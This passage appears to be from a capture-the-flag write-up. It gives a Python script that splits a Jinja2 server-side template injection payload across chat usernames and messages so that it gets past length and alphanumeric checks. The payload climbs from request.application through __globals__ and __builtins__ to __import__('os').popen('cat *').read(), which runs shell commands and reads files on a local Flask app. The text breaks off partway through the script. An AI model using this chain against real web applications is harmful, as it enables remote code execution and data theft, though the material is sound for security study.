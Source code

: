 I adapted my previous Python script to:
* Validate all retrictions on usernames and messages.
* Handle multiple usernames and messages to piece together the full payload.

Here is the updated script:

```python
import requests

URL = "http://localhost:5000"
USERNAME_SIZE = 14
USERNAME_DEL = ": "
MESSAGE_DEL = "<br>"

PAYLOADS = [
    "{{request['" + USERNAME_DEL,
    "application" + MESSAGE_DEL,
    "'[2:13]]['" + USERNAME_DEL,
    "msg" + MESSAGE_DEL,
    "__globals__" + USERNAME_DEL,
    "msg" + MESSAGE_DEL,
    "'[9:20]]['" + USERNAME_DEL,
    "msg" + MESSAGE_DEL,
    "__builtins__" + USERNAME_DEL,
    "msg" + MESSAGE_DEL,
    "'[9:21]]['" + USERNAME_DEL,
    "msg" + MESSAGE_DEL,
    "__import__" + USERNAME_DEL,
    "msg" + MESSAGE_DEL,
    "'[9:19]]('" + USERNAME_DEL,
    "os" + MESSAGE_DEL,
    "'[2:4])['" + USERNAME_DEL,
    "popen" + MESSAGE_DEL,
    "'[2:7]]('" + USERNAME_DEL,
    "cat" + MESSAGE_DEL,
    "'[2:5]+' * #" + USERNAME_DEL,
    "msg" + MESSAGE_DEL,
    "')['" + USERNAME_DEL,
    "read" + MESSAGE_DEL,
    "'[2:6]]()}}" + USERNAME_DEL,
    "msg" + MESSAGE_DEL,
]

# Validate the retrictions
for i in range(len(PAYLOADS)):
    if i % 2 == 0:
        assert PAYLOADS[i].endswith(
            USERNAME_DEL
        ), f"Username {i} should end with delimiter"
        PAYLOADS[i] = PAYLOADS[i][:-len(USERNAME_DEL)]  # Remove delimiter
        assert len(PAYLOADS[i]) <= USERNAME_SIZE, f"Username {i} must be ≤ 14 characters"
    else:
        assert PAYLOADS[i].endswith(
            MESSAGE_DEL
        ), f"Message {i} should end with delimiter"
        PAYLOADS[i] = PAYLOADS[i][:-len(MESSAGE_DEL)]  # Remove delimiter
        assert PAYLOADS[i].isalnum(), f"Message {i} must be alphanumeric"


def set_username(username):
    session = requests.Session()
    session.post(URL + "/set_username", data={"username": username})
    return session.cookies["session"]


```